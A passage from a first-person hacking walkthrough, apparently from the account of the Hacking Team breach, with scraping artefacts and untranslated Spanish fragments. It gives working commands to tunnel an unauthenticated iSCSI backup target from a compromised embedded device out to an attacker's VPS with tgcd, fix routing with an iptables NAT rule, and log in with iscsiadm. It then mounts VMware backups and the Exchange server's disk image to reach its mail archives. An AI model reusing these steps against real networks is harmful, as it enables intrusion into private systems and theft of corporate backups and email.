 Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

iSCSI requires a kernel module, and it would have been difficult to
compile it for the embedded system. I forwarded the port so that I
could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

iSCSI now finds the name iqn.2000-01.com.synology, but has some
problems mounting it since it now believes that its address is both
192.168.200.72 and 127.0.0.1.

The to solve this is:

iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

and then:

iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...and the archive system appears! We mount it:

vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find secure backups of various virtual machines. The Exchange
server seems like the most interesting. It's too big to download, but
we can mount it remotely and search for interesting archives:

$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

entonces el offset es 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

and now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14
172311 we find the hard drive of the virtual machine, and mount it:

vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and, finally, we have gotten to the centre of the matryoshka doll
and we can see all of the archives of the old Exchange server on
/mnt/part1.
